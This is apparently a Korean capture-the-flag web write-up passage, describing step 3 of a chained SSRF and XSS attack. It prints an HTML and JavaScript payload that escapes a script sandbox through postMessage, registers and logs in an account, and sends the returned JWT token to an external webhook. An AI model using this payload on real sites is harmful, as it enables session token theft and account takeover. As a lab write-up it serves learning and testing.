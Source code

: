 3. 계정 등록 및 로그인
Payload:
```html
	    <iframe id="" src="http://127.0.0.1:80/sandbox" frameborder="0" sandbox="allow-scripts"></iframe>
    <script>
	document.querySelector('iframe').addEventListener("load", function() {

	// Register

	document.querySelector('iframe').contentWindow
		.postMessage(\`"".sub.constructor(\\\`fetch('http://127.0.0.1:80/accounts/register',
			{method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'firstname=ab&lastname=ab&username=nicknamemohaji&password1=ab&password2=ab&email=nicknamemohaji00@gmail.com'}).then((x) => x.text()).then((x) => fetch('[REDACTED]' + x));
		\\\`)()\`, '*');


	// Login with that account
	document.querySelector('iframe').contentWindow
		.postMessage(\`"".sub.constructor(\\\`fetch('http://127.0.0.1:80/accounts/login',
			{method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'username=nicknamemohaji&password=ab'}).then((x) => x.text()).then((x) => fetch('[REDACTED]' + x));
		\\\`)()\`, '*');

	// write code above this
});
    </script>
```

`/accounts/login`엔드포인트에서 생성된 jwt 토큰을 `set-cookie`를 통해 전송할 뿐 아니라, `response body`에도 전송하기에 그냥 `response body`에 있는 값을 긁어와 웹훅으로 전송하는 방법을 사용했습니다.

---
위의 내용까지 공격에 성공했습니다. **SSRF를 통해 내부 망에서 접근하고**(1단계), **XSS를 통해 내부 망에서 임의의 자바스크립트 코드를 실행시킬 수 있게**(2, 3단계) 되었습니다. 하지만 이후 관리자 계정으로 로그인하는 데에 어려움을 겪었고, 공격에 실패했습니다. 다음은 실패한 공격들과, 간략한 설명입니다.

![myinfo](/web2/myinfo.png)
